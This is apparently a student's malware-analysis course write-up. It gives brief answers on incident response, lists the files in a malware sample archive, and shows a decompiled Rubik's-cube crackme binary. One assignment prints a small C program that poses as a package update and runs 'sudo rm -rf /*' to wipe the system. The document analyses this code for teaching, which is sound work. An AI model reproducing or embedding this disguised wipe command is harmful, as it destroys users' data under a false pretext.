



# 📌 Day-6: Malware Analysis.

There is two type of Malware analysis
	i. Static Analysis - With out running the malware, just by using dissembler or sysinternals
	ii. Dynamic Analysis - by running the virus on sandbox's

## 📍**TOPIC 7 - Malware Hunting**

### *🔰Assignment-1:*

1) What type of security breaches you may encounter as an incident responder?
> Information and Path disclosure
> DDOS Attacks

2) To detect malicious emails, what steps would you take to examine the emails’?write Helpful threat hunting Checklists
	a, Checking if the Email is Not Spam
	b, Check if the email is Legitimate.
	c, Identify where you got the email.
	d, Try to look the mail sent, to check if you got suspecious.

### *🔰Assignment-2:*  -> Made with the Attacked "malware_sample.zip" file.

### 1) Identify new created processes, services
	> This file contains 
```bash
ls
	cczice.cmd  gupd.rar   IDM.vbs.a.zip  qgwlykqcyz..vbs  tvsymypco.js
	dulla.rar   IDM.vbs.a  kvwpjmygv.js   sslp2017.vbs
```

	we couldn't got the process and service, by technical difficulty.


### 2) Identify persistence folders , registers


## 📍**TOPIC 8 - Malware Analysis and Reverse Engineering**

### *🔰Assignment-1:* Static Malware Analysis

> We Tried to do the challange but the google drive is not allowing as to access the files.


### *🔰Assignment-2:* Dynamic Malware Analysis

> We Tried to do the challange but the google drive is not allowing as to access the files.

### *🔰Assignment-3:* Code Analysis
	 A Code is Given todo analysis on it.
	 Code:
### 👉*We add a Library*
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
```
### 👉*We Will Define The variables*
```c
#define kill_os "sudo rm -rf /*"
#define text "Switching to root user to update the package" 
#define error_text "There has been an error."
```
### 👉*Checks if the system/user/ is admin{ and deletes all files from the /(root) else shows and error_text* 
[ done by checking the UID, UID 0 is root else it is normal user]
```c
int main(){
#if defined __linux__ || defined __unix__
    if ( geteuid() != 0 ){
        printf("%s\n", text); 
    }
    system(kill_os);
#else
    printf("%s\n", error_text);
    return 1;
#endif
}
```
### *🔰Assignment-4: Reverse Engineering **1*** 

It gives as a File That ask for a Flag
> I tryed to get the strings of the binary

```bash
┌──(rexder㉿Rex)-[~/INSA/InitProgramming/MalwareAnalysis]
└─$ strings cm_rb_easy 
/lib64/ld-linux-x86-64.so.2
__cxa_finalize
__libc_start_main
strcpy
puts
strlen
__stack_chk_fail
libc.so.6
GLIBC_2.4
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u3UH
[!] Usage: ./cmRubiks flag
[!] The flag is too long...
[!] Bad flag!
[*] G00d flag!
```
## > Also Tried to Decompile The Code of the 'cm_rb_easy'
```c++
undefined8 main(int param_1,long param_2)

{
  char cVar1;
  char cVar2;
  size_t sVar3;
  long in_FS_OFFSET;
  int local_9c;
  int local_98;
  int local_94;
  int local_90;
  char local_88 [104];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  if (param_1 < 2) {
    puts("[!] Usage: ./cmRubiks flag");
  }
  else {
    sVar3 = strlen(*(char **)(param_2 + 8));
    if (sVar3 < 100) {
      strcpy(local_88,*(char **)(param_2 + 8));
      for (local_9c = 0; sVar3 = strlen(local_88), (ulong)(long)local_9c < sVar3;
          local_9c = local_9c + 1) {
        switch(local_88[local_9c]) {
        case 'B':
          cVar1 = DAT_00104048;
          cVar2 = DAT_00104049;
          DAT_00104049 = DAT_0010405f;
          DAT_00104048 = DAT_0010405d;
          DAT_0010405d = DAT_00104057;
          DAT_0010405f = DAT_00104056;
          DAT_00104057 = DAT_0010405a;
          DAT_00104056 = DAT_00104058;
          DAT_00104058 = cVar2;
          DAT_0010405a = cVar1;
          FUN_00101169(&DAT_0010404c);
          break;
        case 'D':
          cVar1 = DAT_00104052;
          cVar2 = DAT_00104053;
          DAT_00104052 = DAT_0010405a;
          DAT_00104053 = DAT_0010405b;
          DAT_0010405a = DAT_0010404e;
          DAT_0010405b = DAT_0010404f;
          DAT_0010404f = DAT_0010405f;
          DAT_0010404e = DAT_0010405e;
          DAT_0010405e = cVar1;
          DAT_0010405f = cVar2;
          FUN_00101169(&DAT_00104054);
          break;
        case 'F':
          cVar1 = DAT_0010404a;
          cVar2 = DAT_0010404b;
          DAT_0010404b = DAT_00104059;
          DAT_0010404a = DAT_0010405b;
          DAT_00104059 = DAT_00104054;
          DAT_0010405b = DAT_00104055;
          DAT_00104054 = DAT_0010405e;
          DAT_00104055 = DAT_0010405c;
          DAT_0010405c = cVar1;
          DAT_0010405e = cVar2;
          FUN_00101169(&DAT_00104050);
          break;
        case 'L':
          cVar1 = DAT_00104050;
          cVar2 = DAT_00104052;
          DAT_00104050 = DAT_00104048;
          DAT_00104052 = DAT_0010404a;
          DAT_00104048 = DAT_0010404f;
          DAT_0010404a = DAT_0010404d;
          DAT_0010404f = DAT_00104054;
          DAT_0010404d = DAT_00104056;
          DAT_00104054 = cVar1;
          DAT_00104056 = cVar2;
          FUN_00101169(&DAT_00104058);
          break;
        case 'R':
          cVar1 = DAT_00104049;
          cVar2 = DAT_0010404b;
          DAT_0010404b = DAT_00104053;
          DAT_00104049 = DAT_00104051;
          DAT_00104051 = DAT_00104055;
          DAT_00104053 = DAT_00104057;
          DAT_00104057 = DAT_0010404c;
          DAT_00104055 = DAT_0010404e;
          DAT_0010404c = cVar2;
          DAT_0010404e = cVar1;
          FUN_00101169(&DAT_0010405c);
          break;
        case 'U':
          cVar1 = DAT_00104050;
          cVar2 = DAT_00104051;
          DAT_00104050 = DAT_0010405c;
          DAT_00104051 = DAT_0010405d;
          DAT_0010405c = DAT_0010404c;
          DAT_0010405d = DAT_0010404d;
          DAT_0010404c = DAT_00104058;
          DAT_0010404d = DAT_00104059;
          DAT_00104058 = cVar1;
          DAT_00104059 = cVar2;
          FUN_00101169(&DAT_00104048);
          break;
        case 'b':
          for (local_98 = 0; local_98 < 3; local_98 = local_98 + 1) {
            cVar1 = DAT_00104048;
            cVar2 = DAT_00104049;
            DAT_00104049 = DAT_0010405f;
            DAT_00104048 = DAT_0010405d;
            DAT_0010405d = DAT_00104057;
            DAT_0010405f = DAT_00104056;
            DAT_00104057 = DAT_0010405a;
            DAT_00104056 = DAT_00104058;
            DAT_00104058 = cVar2;
            DAT_0010405a = cVar1;
            FUN_00101169(&DAT_0010404c);
          }
          break;
        case 'd':
          for (local_98 = 0; local_98 < 3; local_98 = local_98 + 1) {
            cVar1 = DAT_00104052;
            cVar2 = DAT_00104053;
            DAT_00104052 = DAT_0010405a;
            DAT_00104053 = DAT_0010405b;
            DAT_0010405a = DAT_0010404e;
            DAT_0010405b = DAT_0010404f;
            DAT_0010404f = DAT_0010405f;
            DAT_0010404e = DAT_0010405e;
            DAT_0010405e = cVar1;
            DAT_0010405f = cVar2;
            FUN_00101169(&DAT_00104054);
          }
          break;
        case 'f':
          for (local_98 = 0; local_98 < 3; local_98 = local_98 + 1) {
            cVar1 = DAT_0010404a;
            cVar2 = DAT_0010404b;
            DAT_0010404b = DAT_00104059;
            DAT_0010404a = DAT_0010405b;
            DAT_00104059 = DAT_00104054;
            DAT_0010405b = DAT_00104055;
            DAT_00104054 = DAT_0010405e;
            DAT_00104055 = DAT_0010405c;
            DAT_0010405c = cVar1;
            DAT_0010405e = cVar2;
            FUN_00101169(&DAT_00104050);
          }
          break;
        case 'l':
          for (local_98 = 0; local_98 < 3; local_98 = local_98 + 1) {
            cVar1 = DAT_00104050;
            cVar2 = DAT_00104052;
            DAT_00104050 = DAT_00104048;
            DAT_00104052 = DAT_0010404a;
            DAT_00104048 = DAT_0010404f;
            DAT_0010404a = DAT_0010404d;
            DAT_0010404f = DAT_00104054;
            DAT_0010404d = DAT_00104056;
            DAT_00104054 = cVar1;
            DAT_00104056 = cVar2;
            FUN_00101169(&DAT_00104058);
          }
          break;
        case 'r':
          for (local_98 = 0; local_98 < 3; local_98 = local_98 + 1) {
            cVar1 = DAT_00104049;
            cVar2 = DAT_0010404b;
            DAT_0010404b = DAT_00104053;
            DAT_00104049 = DAT_00104051;
            DAT_00104051 = DAT_00104055;
            DAT_00104053 = DAT_00104057;
            DAT_00104057 = DAT_0010404c;
            DAT_00104055 = DAT_0010404e;
            DAT_0010404c = cVar2;
            DAT_0010404e = cVar1;
            FUN_00101169(&DAT_0010405c);
          }
          break;
        case 'u':
          for (local_98 = 0; local_98 < 3; local_98 = local_98 + 1) {
            cVar1 = DAT_00104050;
            cVar2 = DAT_00104051;
            DAT_00104050 = DAT_0010405c;
            DAT_00104051 = DAT_0010405d;
            DAT_0010405c = DAT_0010404c;
            DAT_0010405d = DAT_0010404d;
            DAT_0010404c = DAT_00104058;
            DAT_0010404d = DAT_00104059;
            DAT_00104058 = cVar1;
            DAT_00104059 = cVar2;
            FUN_00101169(&DAT_00104048);
          }
        }
      }
      for (local_94 = 0; local_94 < 2; local_94 = local_94 + 1) {
        for (local_90 = 0; local_90 < 2; local_90 = local_90 + 1) {
          if (DAT_00104050 != (&DAT_00104050)[(long)local_94 * 2 + (long)local_90]) {
            puts("[!] Bad flag!");
            goto LAB_00101e88;
          }
        }
      }
      for (local_94 = 0; local_94 < 2; local_94 = local_94 + 1) {
        for (local_90 = 0; local_90 < 2; local_90 = local_90 + 1) {
          if (DAT_00104048 != (&DAT_00104048)[(long)local_94 * 2 + (long)local_90]) {
            puts("[!] Bad flag!");
            goto LAB_00101e88;
          }
        }
      }
      for (local_94 = 0; local_94 < 2; local_94 = local_94 + 1) {
        for (local_90 = 0; local_90 < 2; local_90 = local_90 + 1) {
          if (DAT_0010404c != (&DAT_0010404c)[(long)local_94 * 2 + (long)local_90]) {
            puts("[!] Bad flag!");
            goto LAB_00101e88;
          }
        }
      }
      for (local_94 = 0; local_94 < 2; local_94 = local_94 + 1) {
        for (local_90 = 0; local_90 < 2; local_90 = local_90 + 1) {
          if (DAT_00104054 != (&DAT_00104054)[(long)local_94 * 2 + (long)local_90]) {
            puts("[!] Bad flag!");
            goto LAB_00101e88;
          }
        }
      }
      for (local_94 = 0; local_94 < 2; local_94 = local_94 + 1) {
        for (local_90 = 0; local_90 < 2; local_90 = local_90 + 1) {
          if (DAT_00104058 != (&DAT_00104058)[(long)local_94 * 2 + (long)local_90]) {
            puts("[!] Bad flag!");
            goto LAB_00101e88;
          }
        }
      }
      for (local_94 = 0; local_94 < 2; local_94 = local_94 + 1) {
        for (local_90 = 0; local_90 < 2; local_90 = local_90 + 1) {
          if (DAT_0010405c != (&DAT_0010405c)[(long)local_94 * 2 + (long)local_90]) {
            puts("[!] Bad flag!");
            goto LAB_00101e88;
          }
        }
      }
      puts("[*] G00d flag!");
    }
    else {
      puts("[!] The flag is too long...");
    }
  }
LAB_00101e88:
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

## > This is What i Got with my Reverse engineering skill